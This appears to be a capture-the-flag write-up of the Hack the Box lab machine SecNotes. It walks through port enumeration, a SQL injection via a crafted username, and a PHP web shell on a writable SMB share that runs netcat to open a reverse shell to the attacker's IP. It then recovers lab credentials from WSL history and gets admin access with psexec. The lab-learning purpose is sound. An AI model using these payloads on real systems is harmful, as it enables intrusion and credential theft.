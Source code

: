 ```yaml
---
title: SecNotes
date: 2024-02-27 10:00
categories: [ctf, security, hacking, exploits, web application, sql injection, arbitrary file upload, arbitrary file write, cross site request forgery]
tags: [ctf, security, hacking, exploits, web application, sql injection, arbitrary file upload, arbitrary file write, cross site request forgery]
---
```


# Overview
SecNotes is a vulnerable machine from [Hack the Box](https://www.hackthebox.com) that requires some basic web enumeration and file reading, with using SQL Injection on the login page. The foothold is accomplished after some enumeration of a couple files in the web server, and then putting a shell in the smb drive. The privilege escalation is using a file on the machine to check the history of the windows subsystem for linux to find credentials, and using this to gain admin access. 

## Nmap Scan
nmap -T3 -Pn `10.10.10.97` -vvv

* 80/tcp   open  http  syn-ack
* 445/tcp  open  microsoft-ds  syn-ack
* 8808/tcp open  ssports-bcast syn-ack

OS version: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)

## Basic Enumeration
Nothing coming up with smbclient, likely need an actual user rather than guest login. We can check out the web page, and run some web enumerations like nikto and gobuster while we check out whats on the web at both port 80 and 8808.

`Gobuster` gives us a fair number of web pages to check out: 
```
/auth.php             (Status: 500) [Size: 1208]
/contact.php       (Status: 302) [Size: 0] [--> login.php]
/Contact.php       (Status: 302) [Size: 0] [--> login.php]
/DB.php               (Status: 500) [Size: 1208]
/db.php               (Status: 500) [Size: 1208]
/home.php          (Status: 302) [Size: 0] [--> login.php]
/Home.php        (Status: 302) [Size: 0] [--> login.php]
/login.php            (Status: 200) [Size: 1223]
/Login.php            (Status: 200) [Size: 1223]
/logout.php        (Status: 302) [Size: 0] [--> login.php]
/register.php         (Status: 200) [Size: 1569]
```
PHP is used in this environment on the web service: `PHP/7.2.7`.

* At the login portal, we see we have the abilitiy to register. Here, we can test and see if SQL Injection is available to use by registering as user `'OR 1 OR'`.
* Using this user and signing in, we have unexpected access to other user notes. 
* Checking out the other notes, we can see a note that gives us a password: `tyler / 92g!mA8BGjOirkL%OG*&`

## Foothold
Using the credentials we found, we can now enumerate the smb shares, and can see the share `new-site`:
```
Disk             Permissions     Comment
----             -----------     -------
ADMIN$           NO ACCESS       Remote Admin
C$               NO ACCESS       Default share
IPC$             READ ONLY       Remote IPC
new-site         READ, WRITE
```

* Using the level of access we have, we can try to put files onto the machine for execution. Putting something like `nc64.exe` is not enough, as we can't access that on the web. Since there is php on the web site, we can put a second file that will allow us to get `nc64.exe` to run. 

```php
<?php
system('nc64.exe -e cmd.exe 10.10.16.3 5555')
?>
```
* After we put both files into this share, we go out to the site on port 8808, and the file `rev1.php` should be accessible. With a netcat listener on our end, we can get a reverse shell after going to the page: http://10.10.10.97:8808/rev1.php
* We have to do it in quick succession, as we have found that files get cleared from the host every few minutes. We now have access to `user.txt`:

![User](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/secnotes/SecNotes_User.png?raw=true)

## Local Enumeration
Trying to bring over files like `winpeas` didn't work and got blocked by the system AV. After doing some more manual checks on the host, we find that this machine has the `windows subsystem for linux` on it. 

* We find this and the bash executable inside a `winsxs` file path. 
* https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#windows-subsystem-for-linux-wsl

From here, we can run the `bash.exe` file and drop into this subsystem. 

## Privilege Escalation
We are now in the linux local shell on the host. The interactive shell is a bit unstable, and we should escape using a tty escape. We can run the following to get a cleaner tty: `python -c 'import pty; pty.spawn("/bin/bash")'`

* While we are in this shell, we can poke around a bit to see what is here. A quick history check gives us the administator credentials: `smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$` (the `%` symbol signifies a space)

* With this, we should be able to run `psexec` and easily login as the administrator: `impacket-psexec 'administrator:u6!4ZwgwOM#^OBf#Nwnh'@10.10.10.97`
* We can now read `root.txt`: 

![Root](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/secnotes/SecNotes_Root.png?raw=true)